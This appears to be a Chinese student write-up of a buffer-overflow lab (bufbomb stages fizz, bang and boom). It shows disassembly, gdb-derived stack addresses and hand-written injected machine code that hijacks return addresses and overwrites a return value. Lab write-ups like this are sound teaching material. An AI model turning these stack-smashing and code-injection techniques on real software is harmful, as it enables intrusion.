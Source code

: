 `fizz`

`fizz()`需要将`makecookie`产生的`cookie`作为参数传入。

```
$./makecookie U202215559
0x26e03bce
```

```asm6502
080491ec <getbuf>:
 80491ec:    55                       push   %ebp
 80491ed:    89 e5                    mov    %esp,%ebp
 80491ef:    83 ec 38                 sub    $0x38,%esp
 80491f2:    8d 45 d8                 lea    -0x28(%ebp),%eax
 80491f5:    89 04 24                 mov    %eax,(%esp)
 80491f8:    e8 55 fb ff ff           call   8048d52 <Gets>
 80491fd:    b8 01 00 00 00           mov    $0x1,%eax
 8049202:    c9                       leave  
 8049203:    c3                       ret   
```

```asm6502
08048cba <fizz>:
 8048cba:    55                       push   %ebp
 8048cbb:    89 e5                    mov    %esp,%ebp
 8048cbd:    83 ec 18                 sub    $0x18,%esp
 8048cc0:    8b 45 08                 mov    0x8(%ebp),%eax
 8048cc3:    3b 05 20 c2 04 08        cmp    0x804c220,%eax
 8048cc9:    75 1e                    jne    8048ce9 <fizz+0x2f>
 8048ccb:    89 44 24 04              mov    %eax,0x4(%esp)
 8048ccf:    c7 04 24 2e a1 04 08     movl   $0x804a12e,(%esp)
 8048cd6:    e8 f5 fb ff ff           call   80488d0 <printf@plt>
 8048cdb:    c7 04 24 01 00 00 00     movl   $0x1,(%esp)
 8048ce2:    e8 5d 06 00 00           call   8049344 <validate>
 8048ce7:    eb 10                    jmp    8048cf9 <fizz+0x3f>
 8048ce9:    89 44 24 04              mov    %eax,0x4(%esp)
 8048ced:    c7 04 24 c4 a2 04 08     movl   $0x804a2c4,(%esp)
 8048cf4:    e8 d7 fb ff ff           call   80488d0 <printf@plt>
 8048cf9:    c7 04 24 00 00 00 00     movl   $0x0,(%esp)
 8048d00:    e8 8b fc ff ff           call   8048990 <exit@plt>
```

我们首先将返回地址改为`08048cba`，即`fizz()`的首地址。

观察`fizz()`函数，我们可以判断出`fizz()`接受的参数储存在栈上，在`0x8048cc0`处，这个参数的地址是`0x8(%ebp)`，即调用的`getbuf()`的返回地址所在地址`+0x8`，只需要在这个位置注入我们的`cookie`即可。

`bang`

通过`gdb`我们可以得知`global_value`的地址为`0x804c218`，`bang()`的地址为`0x8048d05`。编写代码如下:

```asm6502
00000000 <.text>:
   0:    b8 ce 3b e0 26           mov    $0x26e03bce,%eax
   5:    a3 18 c2 04 08           mov    %eax,0x804c218
   a:    68 05 8d 04 08           push   $0x8048d05
   f:    c3                       ret    
```

我们得到了攻击代码，接下来我们通过将代码注入到缓存区，使程序跳转到我们的攻击代码。

现在的问题在于，我们应该将代码放在哪里呢？

通过`gdb`我们可以知道，我们输入的字符串首地址为`0x55683298`，不妨就放在这里吧！

`boom`

将攻击代码存储在字符串这块空间内。先将`getbuf`的返回地址改为攻击代码的首地址，接着在攻击代码中将返回地址更改为原值。通过简单的计算不难得到，返回地址所在的地址为`0x556832c4`，返回到哪里呢？`getbuf`是在`test`中被调用的，不难查到`call`的下一个指令地址为`0x8048e81`

我们希望`getbuf`能够返回正确的cookie值，即`0x26e03bce`。

我们回顾`getbuf`的代码，代码最后将`0x1`存入了`%eax`，使得`getbuf`永远返回`0x1`，因此我们要将这个立即数改为`0x26e03bce`。通过查询反汇编代码，我们可以知道这个立即数的地址为 `0x80491fe`。

万事俱备，我们开始编写攻击代码。

```asm6502
00000000 <.text>:
   0:    b8 ce 3b e0 26           mov    $0x26e03bce,%eax
   5:    a3 fe 91 04 08           mov    %eax,0x80491fe
   a:    c7 05 c4 32 68 55 81     movl   $0x8048e81,0x556832c4
  11:    8e 04 08 
  14:    c3                       ret    
```
